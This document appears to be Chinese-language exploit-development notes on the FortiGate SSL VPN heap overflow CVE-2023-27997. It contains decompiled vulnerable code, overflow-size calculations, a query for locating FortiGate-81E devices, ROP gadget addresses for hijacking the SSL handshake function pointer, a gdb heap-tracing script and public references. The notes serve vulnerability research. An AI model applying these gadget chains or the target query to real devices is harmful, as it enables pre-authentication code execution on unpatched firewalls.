 # 漏洞原理

```c
int parse_enc_data(char *in)
{
    int in_len = strlen(in);
    int given_len;
    int xored_given_len;

    if(in_len & 1)
    {
        return 1;
    }

    compute_key_zero(salt, in, 8, md5); // [1] Computes key from salt, seed

    out = alloc_block(*pool, (in_len >> 1) + 1); // [2] Allocate a buffer
    unhex(out, in); // [2] Hexa-decode in to out

    if (out[0]) // first byte of seed must be 0x00
    {
        ap_log_rerror((__int64)a1, 8LL, (__int64)"invalid encoding method %d\n", needs_null);
        return 1;
    }

    // [3] Decrypt given length
    xored_given_len = *((_WORD *)out + 2);
    given_len = (unsigned __int8)(xored_given_len ^ md5[0]);
    BYTE1(given_len) = md5[1] ^ HIBYTE(xored_given_len);

    if ( in_len - 5 <= given_len ) // [4] Verify bounds
    {
        ap_log_rerror(a1, 8LL, "invalid enc data length: %d\n", given_len);
        return 1LL;
    }

    // [5] Decrypt: xor every input from byte 6 (4 bytes for seed, 2 bytes for length)
    p = &out[6];
    if (given_len)
    {
        int i = 0LL;
        while (i < given_len)
        {
            if ((i + 2) % 16 == 0) // Current state is exhausted: compute new
            {
                MD5_Init(md5_ctx);
                MD5_Update(md5_ctx, md5, 16LL);
                MD5_Final(md5, md5_ctx);
            }
            p[i] ^= md5[(i + 2) % 16];
            ++i;
        }
    }
    out[6 + given_len] = 0; // [6] Append null byte

    add_kvp_to_hashmap(a1->params, out); // [7] Process plaintext

    // Allocated buffers get freed at the end of the HTTP exchange
    return 0;
}
```

```
8个字节    in_len: 16    out_buf_size:9     (in_len - 5):11     given_len max:10        溢出1字节
32个字节   in_len: 64    out_buf_size:33    (in_len - 5):59     given_len max:58				 溢出25字节
64个字节   in_len: 128   out_buf_size:65    (in_len - 5):123    given_len max:122  		 溢出57字节
```

```python
#!/bin/python3

in_len = 32

while in_len <= 1024:
    out_buf_len = (in_len>>1)+1
    in_len_5 = in_len - 5
    give_len_max = in_len_5 -1
    print(f"in_len:{in_len} out_buf_len:{out_buf_len} in_len - 5:{in_len_5}  give_len max:{give_len_max} overflow:{give_len_max - out_buf_len}")
    in_len += 2
```

# 资产扫描

fortigate product:"Fortinet FortiGate-81E"

# gadget

```c
struct ssl_st {
    /*
     * protocol version (one of SSL2_VERSION, SSL3_VERSION, TLS1_VERSION,
     * DTLS1_VERSION)
     */
    int version;
    /* SSLv3 */
    const SSL_METHOD *method;
    /*
     * There are 2 BIO's even though they are normally both the same.  This
     * is so data can be read and written to different handlers
     */
    /* used by SSL_read */
    BIO *rbio;
    /* used by SSL_write */
    BIO *wbio;
    /* used during session-id reuse to concatenate messages */
    BIO *bbio;
    /*
     * This holds a variable that indicates what we were doing when a 0 or -1
     * is returned.  This is needed for non-blocking IO so we know what
     * request needs re-doing when in SSL_accept or SSL_connect
     */
    int rwstate;                                /--20--/
    int (*handshake_func) (SSL *);              /--24--/
```

通过逆向/home/sysirq/Work/Fortinet/FortiGate_6_4_6_81E/rootfs/unpack/lib/libssl.so.1.1 中的SSL_do_handshake函数

```
.text:0001E39E                 LDR             R3, [R4,#0x18]
.text:0001E3A0                 MOV             R0, R4
.text:0001E3A2                 BLX             R3
```

发现 R4,R0 均指向sstruct ssl_st的开头




我们需要通过r0 ， 将栈移动到我们的控制的gadget中去，

```
ssl->handshake_func（offset:0x18）  设置为 (0x011f96fe : mov r7, r0 ; mov.w r0, #0x400 ; ldr r2, [r4] ; mov sb, r1 ; mov r8, r3 ; blx r2)
ssl->version				(offset:0x00)  设置为 (0x00921326 : mov sp, r7 ; pop.w {r4, r5, r6, r7, r8, sb, sl, fp, lr} ; add sp, #4 ; bx lr)
ssl->new_session		(offset:0x20)  设置为 (0x005712ee : sub sp, #0x1a8 ; pop {r4, pc})
```

这样，当执行ssl->handshake_func 会执行 ssl->version 进而执行 ssl->new_session。最后跳转到我们控制的栈上去



构造的ropchain的最后一部分

```
0x001cb480 : pop {pc}
0x001cb480 : pop {pc}
0x001cb480 : pop {pc}
0x001cb480 : pop {pc}
.....................
0x001cb480 : pop {pc}
0x0003649c : pop {r3, pc}
0x001cb480 : FUNC_FORK_SYSTEM
0x00037caa : add r0, sp, #0x24 ; blx r3
......................
```


# 用于跟踪分配的gdb脚本

```
set height 0
set pagination off
set disassembly-flavor intel
handle SIGPIPE nostop
# break after allocating the buffer grab the address
b *0x0173164e
commands
    silent
    set $heap_obj = $rax
    printf "buffer: %p\n", $heap_obj
    c
end
# print address of SSL objects when malloc'd
b *CRYPTO_zalloc+37 if  ( $r12 == 0x1db8 )
commands
    silent
    printf "CRYPTO_zalloc(0x%x) = %p\n", $r12, $rax
    c
end

# break in malloc helper function (used by vulnerable function)
b *0x018021d6 if (($r13>0x1c00) && ($r13<=0x2000))
commands
    silent
    set $size = $r13
    set $addr = $rax
    printf "malloc(0x%x) = %p\n", $size, $addr
    c
end

# break in je_malloc in case something calls je_malloc directly
b *je_malloc if (($rdi>0x1c00) && ($rdi <=0x2000))
commands
    silent
    printf "je_malloc(%x)\n", $rdi
    c
end
```

# 资料

XORtigate: Pre-authentication Remote Code Execution on Fortigate VPN (CVE-2023-27997)

https://blog.lexfo.fr/xortigate-cve-2023-27997.html

xortigate-cve-2023-27997

https://github.com/lexfo/xortigate-cve-2023-27997?tab=readme-ov-file

Alert: 330,000 FortiGate Firewalls Still Unpatched to CVE-2023-27997 RCE Flaw

https://thehackernews.com/2023/07/alert-330000-fortigate-firewalls-still.html

Fortinet Fortigate RCE (CVE-2023-27997) #18163

https://github.com/rapid7/metasploit-framework/issues/18163

CVE-2023-27997 Is Exploitable, and 69% of FortiGate Firewalls Are Vulnerable

https://bishopfox.com/blog/cve-2023-27997-exploitable-fortigate-vulnerable

Breaking Fortinet Firmware Encryption

https://bishopfox.com/blog/breaking-fortinet-firmware-encryption

CVE-2023-27997 Vulnerability Scanner for FortiGate Firewalls

https://bishopfox.com/blog/cve-2023-27997-vulnerability-scanner-fortigate

Building an Exploit for FortiGate Vulnerability CVE-2023-27997

https://bishopfox.com/blog/building-exploit-fortigate-vulnerability-cve-2023-27997

ssl_st Struct Reference

https://openxdas.sourceforge.net/doxygen/html/structssl__st.html